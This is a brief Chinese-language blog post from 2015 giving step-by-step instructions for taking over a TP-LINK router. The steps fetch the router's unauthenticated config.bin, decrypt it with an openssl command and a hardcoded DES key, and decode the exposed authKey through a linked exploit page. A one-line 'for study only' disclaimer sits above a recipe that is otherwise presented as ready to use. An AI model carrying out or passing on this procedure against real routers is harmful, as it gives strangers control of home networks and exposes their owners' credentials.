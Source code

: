 # TP-LINK config.bin 解码
## *Sat Oct 31 14:22:04 2015*

*文章内容仅供学习讨论，请勿随意模仿或触犯法律条款*

> 参考内容: [链接0](http://teknoraver.net/software/hacks/tplink/) [链接1](http://www.wooyun.org/bugs/wooyun-2015-0110062)

****

##步骤

* 首先要已经与目标路由器建立连接
* 访问 [http://192.168.1.1/config.bin](http://192.168.1.1/config.bin)
* 保存 config.bin 到本地
* 依照 链接0 的叙述，解码该文件
	`openssl enc -d -des-ecb -nopad -K 478DA50BF9E3D2CF -in config.bin > a.txt`
* a.txt 便是包含路由配置信息的明文文本
* 将 链接1 中的代码保存为网页
* 用浏览器打开这个网页，将 a.txt 中的如下行粘帖在解码栏内，就可以愉快地获得这款路由的控制权了，具体原理见 链接0

> `authKey 0rZily4W9TefbwK`
